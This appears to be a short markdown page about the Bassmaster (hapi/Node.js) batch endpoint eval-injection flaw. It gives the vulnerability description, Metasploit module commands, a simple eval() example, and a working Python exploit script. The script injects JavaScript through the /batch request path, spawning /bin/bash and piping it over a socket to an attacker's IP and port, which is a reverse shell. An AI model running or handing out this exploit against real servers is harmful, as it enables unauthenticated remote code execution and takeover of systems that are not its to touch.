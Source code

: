 #  Bassmaster NodeJS Arbitrary JavaScript Injection Vulnerability 
- https://www.rapid7.com/db/modules/exploit/multi/http/bassmaster_js_injection/

Bassmaster Batch Arbitrary JavaScript Injection Remote Code Execution
Eval injection vulnerability in the internals.batch function in lib/batch.js in the bassmaster plugin prior to 1.5.2 for the hapi server framework for Node.js allows remote malicious users to execute arbitrary Javascript code via unspecified vectors.
This module exploits an un-authenticated code injection vulnerability in the bassmaster nodejs plugin for hapi. The vulnerability is within the batch endpoint and allows an attacker to dynamically execute JavaScript code on the server side using an eval. Note that the code uses a '\x2f' character so that we hit the match on the regex.
``` shell
msf > use exploit/multi/http/bassmaster_js_injection
      msf exploit(bassmaster_js_injection) > show targets
            ...targets...
      msf exploit(bassmaster_js_injection) > set TARGET <target-id>
      msf exploit(bassmaster_js_injection) > show options
            ...show and set options...
      msf exploit(bassmaster_js_injection) > exploit
```

## eval()
- https://www.w3schools.com/jsref/jsref_eval.asp
```javascript
let x = 10;
let y = 20;
let text = "x * y";
let result = eval(text);
```

## exploit 
```python
import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\\\x2fbin\\\\x2fbash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```
